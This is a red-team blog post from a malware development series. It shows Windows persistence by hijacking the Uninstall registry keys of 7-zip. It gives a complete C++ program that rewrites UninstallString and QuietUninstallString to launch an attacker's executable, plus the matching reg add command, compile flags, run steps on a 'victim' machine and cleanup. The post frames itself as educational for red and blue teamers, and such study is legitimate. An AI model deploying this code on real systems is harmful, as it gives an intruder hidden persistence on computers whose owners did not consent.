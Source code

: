 ```yaml
---
title:  "Malware development: persistence - part 13. Hijacking uninstall logic for application. Simple C++ example."
date:   2022-10-04 03:00:00 +0300
header:
  teaser: "/assets/images/73/2022-10-04_21-03_1.png"
categories:
  - malware
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/73/2022-10-04_21-03_1.png){:class="img-responsive"}    

This post is the result of self-researching one of the interesting malware persistence trick: via hijacking uninstall file for target application.     

### uninstallation process

When you install a program on a Windows system, they usually point to their own uninstallers. They are in the registry keys:    

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\<application name>`    

and  

`HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\QuietUninstallString\<application name>`     

So what is the trick? There is no problem with replacing them with commands that can run any other program. When a user executes the uninstaller, the command of the attacker's choosing is executed. Again, the good news is that privileges are required to modify these items, as they reside under the `HKLM` key.     

### practical example

Let's look at a practical example. Firstly, let's choose a target application. I chose `7-zip x64`:    

![pers](/assets/images/73/2022-10-04_20-13_1.png){:class="img-responsive"}    

![pers](/assets/images/73/2022-10-04_20-15.png){:class="img-responsive"}    

![pers](/assets/images/73/2022-10-04_20-15_1.png){:class="img-responsive"}    

Then, check registry key values, for correctness:    

```powershell
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /s
```

![pers](/assets/images/73/2022-10-04_20-08.png){:class="img-responsive"}    

Also, I prepared my evil application. It's as usually `meow-meow` "malware" :)    

![pers](/assets/images/73/2022-10-04_20-10.png){:class="img-responsive"}    

Then, I create a program, which do my logic for persistence (`pers.cpp`):    

```cpp
/*
pers.cpp
windows persistence via
hijacking uninstall app
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/10/04/malware-pers-13.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // target app
  const char* app = "SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Uninstall\\7-zip";

  // evil app
  const char* exe = "C:\\Users\\User\\Documents\\malware\\2022-10-04-malware-pers-13\\hack.exe";

  // app
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)app, 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // update registry key value
    // reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /v "UninstallString" /t REG_SZ /d "...\hack.exe" /f
    RegSetValueEx(hkey, (LPCSTR)"UninstallString", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegSetValueEx(hkey, (LPCSTR)"QuietUninstallString", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```

As you can see, the logic is simple, we are just update target key values in registry.    

### demo

Let's go to see everything in action. Compile malware and persistence script:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/73/2022-10-04_20-09.png){:class="img-responsive"}    

And run at the victim's machine - `Windows 10 x64` in my case:    

```powershell
.\pers.exe
```

![pers](/assets/images/73/2022-10-04_20-59.png){:class="img-responsive"}    

Finally, after reboot my system, tried to uninstall `7-zip`:    

![pers](/assets/images/73/2022-10-04_20-13_1.png){:class="img-responsive"}    

![pers](/assets/images/73/2022-10-04_20-15.png){:class="img-responsive"}    

![pers](/assets/images/73/2022-10-04_21-01.png){:class="img-responsive"}    

![pers](/assets/images/73/2022-10-04_21-03.png){:class="img-responsive"}    

Then I looked at the properties of `hack.exe` in Process Hacker 2:    

![pers](/assets/images/73/2022-10-04_21-05.png){:class="img-responsive"}    

as you can see the parent process is `SystemSettings.exe` - is what you see whenever you open your Windows settings. In our case, it is `add/remove programs`. Perfect! =^..^=    

There are the little caveat. When I try to update key with path `Z:\2022-10-04-malware-pers-13\hack.exe` I get an error like this:    

![pers](/assets/images/73/2022-10-05_17-37.png){:class="img-responsive"}    

Maybe you can use only paths inside the disk `C:\`.    

After end of the experiments, clean up:    

```powershell
reg add "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Uninstall\7-zip" /v "UninstallString" /t REG_SZ /d "C:\Program Files\7-zip\Uninstall.exe" /f
```

![pers](/assets/images/73/2022-10-05_17-50.png){:class="img-responsive"}    

### conclusion

Of course, maybe this trick is not so cool for persistence, since it requires the permissions and participation of the victim's user. But why not?    

There is one more trick with using installing and removing programs for persistence, I will write about it in one of the future posts. I'm still in the process of investigating this possibility for the red team.      

I hope this post spreads awareness to the blue teamers of this interesting technique, and adds a weapon to the red teamers arsenal.    

[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)      
[source code in github](https://github.com/cocomelonc/2022-10-04-malware-pers-13)     

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
